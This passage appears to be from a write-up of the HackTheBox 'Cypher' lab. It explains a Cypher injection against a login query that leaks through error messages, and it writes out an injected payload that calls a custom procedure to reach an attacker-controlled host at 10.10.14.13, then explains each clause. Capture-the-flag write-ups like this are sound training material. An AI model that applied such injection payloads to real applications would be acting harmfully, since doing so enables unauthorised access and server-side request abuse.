 ![d30659162426a60cc329526ffa87f434.png](/assets/images/HTB-Cypher/d30659162426a60cc329526ffa87f434.png)

The application's logic resides in app.py, and the full Cypher query is revealed in error messages. For those unfamiliar with Cypher injection, here is a practical guide: [article](https://hackmd.io/@Chivato/rkAN7Q9NY) about the cypher injection.

**Full Query:** MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = 'test'{PAYLOAD} //' return h.value as hash"

### Building injection query


**Injected Query:** "test' OR 1=1 WITH 1 AS x CALL custom.getUrlStatusCode(\"http://10.10.14.13:8000/helloWorld\") YIELD statusCode AS y RETURN y as hash //" ^trigger-custom-procedure-call

Let's break down the query:

' OR 1=1 WITH 1 AS x: This segment uses a simple logical operation as a filler and then assigns the value 1 to the variable x using a WITH clause.

CALL custom.getUrlStatusCode(\"http://10.10.14.13:8000/helloWorld\") YIELD statusCode: This invokes the custom.getUrlStatusCode procedure, which was discovered during the JAR file analysis. The query specifies YIELD statusCode, indicating that the output variable for the status code is named statusCode.

AS y RETURN y AS hash: In this final part, the value yielded as statusCode is assigned to y, and then y is returned as hash.
